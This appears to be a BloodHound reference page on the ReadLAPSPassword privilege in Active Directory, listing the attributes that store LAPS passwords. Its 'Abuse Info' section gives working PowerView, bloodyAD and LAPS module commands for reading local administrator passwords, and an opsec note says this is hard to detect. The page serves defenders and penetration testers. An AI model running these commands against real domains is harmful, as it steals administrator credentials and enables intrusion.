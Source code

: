 ```yaml
---
title: Working with the BloodHound API
---
```


<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>


This privilege allows a principal to read the LAPS password from a computer.

For systems using legacy LAPS, the following AD computer object properties are relevant:

* **ms-Mcs-AdmPwd**: The plaintext LAPS password
* **ms-Mcs-AdmPwdExpirationTime**: The LAPS password expiration time

For systems using Windows LAPS (2023 edition), the following AD computer object properties are relevant:

* **msLAPS-Password**: The plaintext LAPS password
* **msLAPS-PasswordExpirationTime**: The LAPS password expiration time
* **msLAPS-EncryptedPassword**: The encrypted LAPS password
* **msLAPS-EncryptedPasswordHistory**: The encrypted LAPS password history
* **msLAPS-EncryptedDSRMPassword**: The encrypted Directory Services Restore Mode (DSRM) password
* **msLAPS-EncryptedDSRMPasswordHistory**: The encrypted DSRM password history

Abuse Info[](#h_01JF7GFQDMTP3E7C81G2M07PSF)
-------------------------------------------

 Plaintext attributes can be read using a simple LDAP client. For example, with PowerView:
```
Get-DomainComputer "MachineName" -Properties "cn","ms-mcs-admpwd","ms-mcs-admpwdexpirationtime"
```
 On Linux, using bloodyAD:
```
bloodyAD --host $DC_IP -d $DOMAIN -u $USER -p $PASSWORD get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
 Encrypted attributes can be decrypted using Microsoft's LAPS PowerShell module. For example:
```
Get-LapsADPassword "WIN10" -AsPlainText
```
The encrypted attributes can also be retrieved and decrypted using [lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt) (dotnet or BOF).

Opsec Considerations[](#h_01JF7GFQDMGRVY148EE69BHVVE)
-----------------------------------------------------

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

References[](#h_01JF7GFQDMQX77QWZYKHS16G0B)
-------------------------------------------

* [https://www.specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)
* [https://adsecurity.org/?p=3164](https://adsecurity.org/?p=3164)
* [https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword)
* [https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt)
* [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)
